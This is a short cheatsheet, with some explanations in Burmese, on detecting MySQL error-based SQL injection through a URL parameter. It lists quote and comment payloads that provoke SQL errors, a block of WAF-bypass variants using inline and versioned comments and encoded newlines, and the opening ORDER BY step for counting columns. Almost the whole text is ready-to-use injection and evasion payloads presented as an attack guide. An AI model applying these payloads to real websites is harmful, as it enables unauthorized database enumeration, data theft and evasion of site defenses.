 # MySQL Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

<code>https://site.com/index.php?id=1</code>

Website load successfully.

အဲ့တာကိုကျွန်တော်တို့ အနောက်ကနေ ' လေးထည့်ပေးလိုက်ရင် အောက်ကပုံစံမျိုး error message ကျလာမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=1'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1\'</code>

Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1 and 0' order by 1--+</code>
ဒီလိုထည့်လိုက်ရင်တော့ website ကပုံမှန်အတိုင်း ပြန်ပြီးအလုပ်လုပ်သွားမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=2-1</code>
Website loads successfully.

<code>https://site.com/index.php?id=-1'</code>
Error message shows up again

<code>https://site.com/index.php?id=-1)'</code>
Error message shows up again

<code>https://site.com/index.php?id=1'-- -</code>
Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1'--</code>
Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1+--+</code>
Website might loads successfuly, but it might shows error also
```
# Bypassing WAF to detect the vulnerability (if the first methodology didn't work)
In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.
```
<code>https://site.com/index.php?id=1'--/**/-</code>
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

<code>https://site.com/index.php?id=/^.*1'--+-.*$/</code>
<code>https://site.com/index.php?id=/*!500001'--+-*/</code>
<code>https://site.com/index.php?id=1'--/**/-</code>
<code>https://site.com/index.php?id=1'--/*--*/-</code>
<code>https://site.com/index.php?id=1'--/*&a=*/-</code>
<code>https://site.com/index.php?id=1'--/*1337*/-</code>
<code>https://site.com/index.php?id=1'--/**_**/-</code>
<code>https://site.com/index.php?id=1'--%0A-</code>
<code>https://site.com/index.php?id=1'--%0b-</code>
<code>https://site.com/index.php?id=1'--%0d%0A-</code>
<code>https://site.com/index.php?id=1'--%23%0A-</code>
<code>https://site.com/index.php?id=1'--%23foo%0D%0A-</code>
<code>https://site.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-</code>
<code>https://site.com/index.php?id=1'--#qa%0A#%0A-</code>
<code>https://site.com/index.php?id=/*!20000%0d%0a1'--+-*/</code>
<code>https://site.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/</code>
```
## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY
```
<code>https://site.com/index.php?id=1' order by 1-- -</code>
This query musn't shows up error, since there is no lower number than 1
```

